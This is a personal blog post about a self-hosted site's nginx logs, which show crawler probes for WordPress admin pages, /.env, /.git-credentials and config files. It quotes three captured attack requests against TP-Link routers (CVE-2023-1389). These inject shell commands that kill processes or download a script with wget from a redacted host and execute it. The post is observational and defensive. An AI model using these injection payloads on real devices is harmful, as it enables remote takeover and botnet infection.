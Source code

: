 ```yaml
---
title: Beautiful women named SM-G892A Bulid/NRD90M keep trying to access my /wp-admin
description: Opening the can of worms otherwise known as my nginx logs
date: 2024-07-20T20:10:00+02:00
tags: indieweb
---
```


For the low price of an additional €2.5 to my monthly Internet bill (for the static IP) I can now just drag the `html` files into a network folder on my Raspberry Pi and have them appear online, in the form of this site. And I can see all the logs! These are pretty interesting, because there really are a lot of crawlers out there. I knew there would be *some*, but reading the logs for the first time felt like playing one of those horror games in which everything is okay until you use the flashlight.

In the last 24 hours (ish), the crawlers have constituted 51.06% of the traffic, and `robots.txt` has been the second most requested file (after the favicon). I used the advice from [darkvisitors.com](https://darkvisitors.com/docs/robots-txt) for the `robots.txt` file, but it feels a bit silly that I have to specifically mention the user agents in the file before I even know that they exist. Who are `AhrefsBot`, `ImagesiftBot`, `SemrushBot`, `SeznamBot`, `CensysInspect`, or `BazQuxReaderMediaProxy`? And it's not like they have to respect my wishes anyway. By analyzing the logs I can see whether they have, but I'm not sure if I care that much. 

The requests that returned a 404 Not Found error were somewhat interesting. I did expect that `/wp-admin`, `/wp-login/`, `/wp-includes/`, etc. would be fairly popular crawl destinations, but I felt a bit betrayed that the crawlers were also interested in my `/.env` file, as well as in the `/.git/config` and `/.git-credentials`. The crawlers also looked for a `/config.json`, a `/docker-compose.yml`, a `/debug/vars`, or a `/app/config/parameters.yml`. There was also a request for the PHP debug bar or a `/cgi-bin/printenv.pl` file, which I assume would be a perl script that would print the environmental variables.

Some requests were also probing for cross-site scripting vulnerabilities. There were requests for versions of jQuery lower than 3.5.0, or for a file called `MultiFileUploader.ashx`. There was a request for `/+CSCOE+/logon.html`, which is a [HTTP response splitting](https://en.wikipedia.org/wiki/HTTP_response_splitting) vulnerability present in [some Cisco servers](https://bst.cisco.com/quickview/bug/CSCth63101). I think the most interesting requests were the following ones:

<pre>
  <code style="white-space: pre-line; line-break: anywhere;">
    /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id>`for+proc_dir+in+/proc/[0-9]*;+do+pid=${proc_dir##*/};+buffer=$(cat+"/proc/$pid/maps");+if+[+"${#buffer}"+-gt+1+];+then+if+[+"${buffer#*"/lib/"}"+=+"$buffer"+]+&&+[+"${buffer#*"telnetdbot"}"+=+"$buffer"+];+then+kill+-9+"$pid";+fi;+fi;+done`)
  </code>
</pre>

<pre>
  <code style="white-space: pre-line; line-break: anywhere;">
    /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id>`cd+/tmp;+rm+-rf+wget.sh;+wget+http://[REDACTED]/wget.sh;+chmod+777+wget.sh;+./wget.sh+tplink;+rm+-rf+wget.sh`)
  </code>
</pre>

<pre>
  <code style="white-space: pre-line; line-break: anywhere;">
    /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id>`cd+/tmp;+rm+-rf+r;+wget+http://[REDACTED]/r;+chmod+777+r;+./r+tplink;+rm+-rf+r`)
  </code>
</pre>

These ones truly tell a story. I replaced IP addresses with `[REDACTED]`. I assume that's where the payload is hosted. These requests [would work on some TP-Link routers](https://nvd.nist.gov/vuln/detail/CVE-2023-1389), but we don't have a TP-Link router, the router that we have is not out on the Internet by itself, and the current configuration shouldn't allow for anything like that.

But I do feel I need to be more mindful about it, and keep the configuration as simple as possible, sticking to static sites for now. All these requests were present in just two `access.log` files (from two days). I might update this post if I see more interesting things in there. I used [GoAccess](https://goaccess.io/) to parse the logs, but I feel like it's slightly obscuring the data, so I'll probably try to find a better set-up.
